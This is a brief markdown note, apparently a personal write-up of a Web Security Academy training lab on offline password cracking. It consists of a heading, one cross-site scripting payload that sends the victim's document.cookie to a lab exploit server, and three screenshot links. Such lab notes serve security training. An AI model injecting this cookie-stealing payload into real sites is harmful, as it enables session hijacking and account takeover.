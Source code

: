 ## Offline password cracking  
`<script>document.location="https://ac481f671ea62b0780932a780136004a.web-security-academy.net/exploit?c="+document.cookie</script>`  
![image](https://user-images.githubusercontent.com/22276823/124164989-86d11e00-dacb-11eb-8900-58f7d7bbf4f2.png)  

![image](https://user-images.githubusercontent.com/22276823/124165106-a6684680-dacb-11eb-8654-09c0586a69bc.png)  

![image](https://user-images.githubusercontent.com/22276823/124165250-c13abb00-dacb-11eb-80e4-3535603d6a4f.png)



